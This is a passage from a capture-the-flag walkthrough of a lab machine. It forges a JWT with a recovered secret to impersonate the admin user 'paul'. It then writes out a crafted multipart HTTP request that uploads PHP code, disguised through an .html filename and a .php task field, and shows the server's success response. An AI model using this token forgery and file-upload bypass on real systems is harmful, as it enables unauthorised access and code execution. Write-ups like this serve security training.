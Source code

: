 With the secret key we just found, we will create a new jwt token and we get the following token:

```sh
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
```

Now will you create an account, when you log in, F12, then Storage, and refresh, it looks like this:

![hack](https://media.discordapp.net/attachments/490431433559506954/823463288993611776/unknown.png)

Now you have access to the admin panel (paul)

![hack](https://media.discordapp.net/attachments/490431433559506954/823463833170608138/unknown.png)

Ok now go to file management and upload a php script to a file (maybe like reverseshell.html) and intercept with burpsuite and change the .zip at the bottom to .php if you can't find the title and the author in a valid file book. As the "upload" button does not work, view the following page to makeup file upload request package by yourself.

```sh
http://10.10.10.228/portal/assets/js/files.js
```

```sh
POST /portal/includes/fileController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=paul47200b180ccd6835d25d034eeb6e6390; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 295


------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.html"
Content-Type: text/html


<?php phpinfo();?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="task"


test.php
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

We get this as an response :

```sh
HTTP/1.1 200 OK
Date: Tue, 23 Feb 2021 16:37:26 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
X-Powered-By: PHP/8.0.1
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30
Connection: close
Content-Type: text/html; charset=UTF-8


Success. Have a great weekend!
```